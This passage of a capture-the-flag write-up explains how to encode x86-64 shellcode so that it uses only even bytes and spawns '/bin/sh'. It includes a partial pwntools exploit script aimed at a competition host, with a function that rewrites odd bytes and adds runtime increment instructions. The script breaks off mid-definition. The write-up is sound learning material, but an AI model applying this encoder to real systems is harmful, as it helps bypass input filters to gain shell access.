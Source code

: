 ## Writing the Exploit:

During the competition window, I manually put together each instruction in a very similar manner to that described above for the syscall. However, I have since written a helper function in an attempt to streamline the process and make it easier to encode arbitrary shellcode in this and similar fashions.

The basic idea is that I have two main chunks of information that I need to get into memory: the actual shellcode to set up my registers and syscall, and the '/bin/sh' string. NOPs are the byte b'\x90', which means that they are even, permissable, and can be used to pad both chunks out to predictable starting positions. I selected 0x80 and 0xf6 from the start so that I keep my shellcode contained within a single byte offset and keep things simple. I then set up an encoding function in python designed to detect each odd byte of my desired shellcode, switch it to a smaller, even byte, and place some appropriate encoding shellcode at the beginning in order to bring rax up to the byte and add one to the contents during run-time.

This encoding function could easily deal with longer and more complicated shellcode, as long as it fits within the desired parameters. I could also optimize it further to include less unnecessary mov instructions, automatically come up with smaller NOP offsets, and more, but for the purposes of this exercise, it works really well, and it could probably be edited to work with different shellcode restrictions.

Here is the actual final script:
```
from pwn import *

#target = process('./two')

#pid = gdb.attach(target, "\nb *main+363\n set disassembly-flavor intel\ncontinue")

target = remote('host1.metaproblems.com', 5480)

print(target.recvuntil(b'What is your shellcode?'))

context.clear(arch='amd64')

def encode(goal_shellcode, starting_position, binsh_position):
	evened_shellcode = b''
	encoder_shellcode = b''
	current_position = starting_position
	for i in range(len(goal_shellcode)):
		current_byte_num = goal_shellcode[i]
		if current_byte_num % 2 == 1:
			evened_shellcode += (current_byte_num - 1).to_bytes(1, 'little')
			if current_position % 2 == 0:
				encoder_shellcode += asm('mov al, ' + str(current_position) + ''';
				inc BYTE PTR ds:[rax];''')
			else:
				encoder_shellcode += asm('mov al, ' + str(current_position - 1) + ''';
				inc al;
				inc BYTE PTR ds:[rax];''')
			
		else:
			evened_shellcode += goal_shellcode[i].to_bytes(1, 'little')
		current_position += 1
	final_shellcode = encoder_shellcode + asm('NOP;') * (starting_position - len(encoder_shellcode)) + evened_shellcode
	return final_shellcode


starting_position = 0x80
binsh_position = 0xf6
goal_shellcode = asm('add rdi, '+ str(binsh_position) + ''';
xor esi, esi;
```